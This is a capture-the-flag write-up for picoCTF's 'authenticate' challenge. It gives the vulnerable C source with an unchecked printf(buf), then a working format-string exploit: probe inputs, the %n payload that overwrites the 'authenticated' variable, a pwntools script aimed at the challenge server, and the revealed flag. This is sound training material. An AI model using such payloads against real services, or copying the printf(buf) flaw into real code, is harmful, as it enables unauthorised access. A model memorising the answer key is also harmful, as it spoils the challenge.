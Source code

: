 # authenticate
**Points: 350**

## Binary Exploitation

## Question
> Can you authenticate to this service and get the flag? Connect with nc 2018shell.picoctf.com 52918. Source.
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

int authenticated = 0;

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}

void read_flag() {
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  }
  else {
    printf("Access Granted.\n");
    flag();
  }

}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  printf("Would you like to read the flag? (yes/no)\n");

  fgets(buf, sizeof(buf), stdin);
  
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  
  read_flag();

}
```

### Hint
> What happens if you say something OTHER than yes or no?

## Solution
As you see the buffer is not overflowable since the program uses fgets.
Some lines below the fget we see **printf(buf);** so we know that this is a **format string** challenge.
First we have to find the address that we want to modify: authenticated
```bash
objdump -t auth | grep authenticated
0804a04c g     O .bss   00000004              authenticated
```

To modify that address we create a pattern: **'A'*4 + '\x4c\xa0\x04\x08' + 'B'*4 + '%x '*20 **
```bash
python -c "print 'A'*4 + '\x4c\xa0\x04\x08' + 'B'*4 + '%x '*20" | ./auth
Would you like to read the flag? (yes/no)
Received Unknown Input:

AAAABBBB80489a6 f7f435c0 804875a ffa7df70 0 f7fa7000 ffa7e034 0 ffa7e034 0 41414141 804a04c 42424242 25207825 78252078 20782520 25207825 Sorry, you are not *authenticated*!
```

Now we have to align the output with **0804a04c** that is the address that we want to modify.
```bash
python -c "print 'A'*4 + '\x4c\xa0\x04\x08' + 'B'*4 + '%x '*12" | ./auth
Would you like to read the flag? (yes/no)
Received Unknown Input:

AAAABBBB80489a6 f7f385c0 804875a ffe95330 0 f7f9c000 ffe953f4 0 ffe953f4 0 41414141 804a04c 
Sorry, you are not *authenticated*!
```
As you see the last address that we are leaking is the required, we can modify it adding **%n**:
```bash
python -c "print 'A'*4 + '\x4c\xa0\x04\x08' + 'B'*4 + '%x '*11 + '%n'" | nc 2018shell.picoctf.com 52918

Would you like to read the flag? (yes/no)
Received Unknown Input:

AAAABBBB80489a6 f77775a0 804875a f77b0000 f77b0918 ff8b10c0 ff8b11b4 0 ff8b1154 429 41414141 
Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}
```

With python:
```python
from pwn import *

e = ELF('auth')
auth_addr = e.symbols['authenticated']

# nc 2018shell.picoctf.com 52918

host = '2018shell.picoctf.com'
port = 52918

payload = 'A' * 4 + p32(auth_addr) + 'B' * 4 + '%x ' * 11 + '%n '
# payload = '%11$n'

r = remote(host, port)
r.recv()
r.sendline(payload)
r.recvline()
r.recvuntil('Access Granted.')
print(r.recv())
```
![img1](images/1.png)

### Flag
`picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}`
